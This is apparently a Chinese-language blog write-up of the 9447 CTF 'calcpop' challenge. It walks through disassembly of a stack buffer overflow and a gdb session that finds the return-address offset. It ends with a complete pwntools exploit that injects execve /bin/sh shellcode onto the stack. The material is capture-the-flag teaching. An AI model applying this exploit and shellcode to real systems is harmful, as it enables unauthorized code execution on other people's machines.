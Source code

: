 ```yaml
---
title: 'Writeup-9447 CTF: calcpop'
layout: post
categories: blog
tags: [Hack, CTF, Writeup, Exploitation]
share: true
---
```


先看反汇编代码：
{% highlight asm %}
...
8048460:	55                   	push   %ebp
8048461:	89 e5                	mov    %esp,%ebp
8048463:	57                   	push   %edi
8048464:	56                   	push   %esi
8048465:	be 00 01 00 00       	mov    $0x100,%esi
804846a:	53                   	push   %ebx
804846b:	83 e4 f0             	and    $0xfffffff0,%esp
804846e:	81 ec 90 00 00 00    	sub    $0x90,%esp
8048474:	a1 60 a0 04 08       	mov    0x804a060,%eax
8048479:	c7 44 24 0c 00 00 00 	movl   $0x0,0xc(%esp)
8048480:	00
8048481:	8d 5c 24 10          	lea    0x10(%esp),%ebx
8048485:	c7 44 24 08 02 00 00 	movl   $0x2,0x8(%esp)
804848c:	00
804848d:	89 df                	mov    %ebx,%edi
804848f:	c7 44 24 04 00 00 00 	movl   $0x0,0x4(%esp)
8048496:	00
8048497:	89 04 24             	mov    %eax,(%esp)
804849a:	e8 a1 ff ff ff       	call   8048440 <setvbuf@plt>
804849f:	c7 04 24 10 88 04 08 	movl   $0x8048810,(%esp)
80484a6:	e8 55 ff ff ff       	call   8048400 <puts@plt>
80484ab:	eb 29                	jmp    80484d6 <main+0x76>
80484ad:	8d 76 00             	lea    0x0(%esi),%esi
80484b0:	a1 40 a0 04 08       	mov    0x804a040,%eax
80484b5:	89 04 24             	mov    %eax,(%esp)
80484b8:	e8 33 ff ff ff       	call   80483f0 <_IO_getc@plt>
80484bd:	85 c0                	test   %eax,%eax
80484bf:	0f 88 e3 00 00 00    	js     80485a8 <main+0x148>
80484c5:	88 07                	mov    %al,(%edi)
80484c7:	83 ee 01             	sub    $0x1,%esi
80484ca:	83 c7 01             	add    $0x1,%edi
80484cd:	83 f8 0a             	cmp    $0xa,%eax
80484d0:	0f 84 ca 00 00 00    	je     80485a0 <main+0x140>
80484d6:	83 fe 01             	cmp    $0x1,%esi
80484d9:	77 d5                	ja     80484b0 <main+0x50>
80484db:	85 f6                	test   %esi,%esi
80484dd:	0f 85 bd 00 00 00    	jne    80485a0 <main+0x140>
...
{% endhighlight %}

这段代码是 main() 函数起始的位置，可以看到这里的工作是将终端输入的数据循环读入栈中。其中 esi 寄存器是循环计数器，初始值是 0x100, 而在栈中划分的空间只有 0x90 字节, 这里存在栈溢出。

用 `pattern.py 256` 生成 pattern, 开 gdb 调试 calcpop.
{% highlight console%}
$ gdb calcpop
Reading symbols from calcpop...done.
(gdb) r
Starting program: /home/cubelin/is/ctf/9447/pwn/calcpop/calcpop
Welcome to calc.exe
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A
Missing a space; your input was 0xffffd390
Missing a space; your input was 0xffffd390
exit
Exiting...

Program received signal SIGSEGV, Segmentation fault.
0x41326641 in ?? ()
(gdb) quit

$ pattern.py 0x41326641
Pattern 0x41326641 first occurrence at position 156 in pattern.
{% endhighlight%}

main() 函数返回地址在 offset 为 156 的位置。然后借由程序返回的栈地址，可以直接执行栈中的 shellcode.

exp 如下:
{% highlight python %}
#!/usr/bin/env python
# coding=utf8

from pwn import process, p32, remote

p = process("./calcpop")
#p = remote('calcpop-4gh07blg.9447.plumbing', 9447)

print p.recvline()

p.send('get_stack_address\n')
line = p.recvline()
stack_addr = int(line.split()[-1][2:], 16)

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
             "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")

payload = 'A' * 156 + p32(stack_addr + 156 + 4) + shellcode + '\n'

p.send(payload)
p.send('exit\n')
p.interactive()
{% endhighlight %}
